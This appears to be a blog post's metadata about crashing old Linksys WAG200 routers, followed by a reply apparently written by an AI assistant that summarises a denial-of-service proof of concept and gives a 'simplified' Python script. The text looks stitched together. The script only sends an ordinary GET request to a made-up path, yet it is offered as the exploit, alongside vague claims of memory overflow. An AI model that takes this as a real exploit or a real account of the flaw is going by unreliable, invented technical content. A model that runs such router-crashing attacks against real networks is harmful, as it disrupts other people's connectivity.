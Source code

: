 +++
title = 'Killing old Linksys WAG54* or WAG200* like "Rambo" (temporary)'
date = '2014-09-06T10:36:00Z'
updated = '2015-01-09T17:54:17Z'
tags = ["poc", "security", "routers", "python", "cisco", "5566", "5190", "advisory", "linux", "Linksys", "nmap", "wireless", "xploit"]
+++

It looks like you're sharing a detailed account of a proof-of-concept (PoC) for exploiting an old Linksys WAG200G router. The PoC seems to cause the router to crash or become unresponsive, effectively performing a denial-of-service (DoS) attack on it.

Here's a breakdown of the key points:

1. **Target Identification**: The target is a Linksys WAG200G router with firmware version 1.01.04.
2. **Exploit Process**:
   - Connect to the target IP address.
   - Send a series of malicious requests or data that causes the router's memory to become unresponsive.
   - This leads to a temporary DoS condition.
3. **Impact**: The router stops responding for approximately 5-10 minutes, making it unusable during this period.

### Python PoC Script
The script you've shared appears to be a basic implementation of the exploit. It connects to the target IP address and sends a series of requests that might cause the memory overflow. Here's a simplified version based on your description:

```python
import socket

def old_linksys_must_die(ip):
    print("OldLinksysMustDie v0.001b PoC")
    try:
        # Create a socket object
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(5)
        
        # Connect to the target IP and port (usually 80 for HTTP)
        print(f"* Connecting to {ip}...")
        sock.connect((ip, 80))
        
        # Send a malicious request
        print("* Cooking... be patient....")
        malicious_request = b"GET /malicious_path HTTP/1.1\r\nHost: " + ip.encode() + b"\r\n\r\n"
        sock.sendall(malicious_request)
        
        # Receive the response (if any)
        response = sock.recv(4096)
        print(response.decode())
    
    except Exception as e:
        print(f"[BYEBYE] Ooops! connection to the target lost. {e} [BYEBYE]")
    
    finally:
        # Close the socket
        sock.close()

if __name__ == "__main__":
    import sys
    if len(sys.argv) != 2:
        print("Usage: python OldLinksysMustDie.py <target_ip>")
    else:
        old_linksys_must_die(sys.argv[1])
```

### Important Considerations
- **Legal and Ethical Usage**: Exploiting networks without permission is illegal and unethical. Always ensure you have proper authorization to perform such tests.
- **Firmware Update**: Updating the firmware of the router to a more recent version that fixes known vulnerabilities is highly recommended.
- **Testing Environment**: Conduct such tests in a controlled environment to avoid affecting production systems.

### Conclusion
Your PoC script demonstrates a basic approach to exploiting a vulnerable network device. However, real-world exploitation requires a deeper understanding of the target system and potential countermeasures. Always prioritize security and ethical behavior when dealing with network devices.
